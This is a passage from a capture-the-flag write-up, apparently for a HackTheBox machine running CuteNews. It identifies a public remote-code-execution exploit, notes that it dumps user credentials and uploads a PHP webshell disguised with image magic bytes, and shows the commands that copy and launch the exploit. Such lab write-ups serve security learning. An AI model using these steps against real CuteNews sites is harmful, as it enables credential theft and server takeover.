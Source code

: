 
#### Foothold

I have no knowledge about the CMS : `Cutenews`'s version, but I know it was around `2020` based on the `Passage News 2020` footer

There's an exploit : `CuteNews 2.1.2 - Remote Code Execution ` released around the date

> https://www.exploit-db.com/exploits/48800

![](/assets/obsidian/88fdbbec96bc197886e5dd2743c2755d.png)

![](/assets/obsidian/d5801e4aab98306e4c17c06517edd64d.png)

The exploit will dump credentials through `{ip}/CuteNews/cdata/users/lines`

Then register an user in order to upload a php webshell with magic bytes as an avatar

![](/assets/obsidian/21fae296e45fc144d12368eb72dfa6b6.png)

#### Validate exploit

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage/exploit]
└─$ searchsploit -m 48800
  Exploit: CuteNews 2.1.2 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48800
     Path: /usr/share/exploitdb/exploits/php/webapps/48800.py
    Codes: CVE-2019-11447
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/Passage/exploit/48800.py


┌──(bravosec㉿fsociety)-[~/htb/Passage/exploit]
└─$ python 48800.py



           _____     __      _  __                     ___   ___  ___
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/
                                ___  _________
                               / _ \/ ___/ __/
```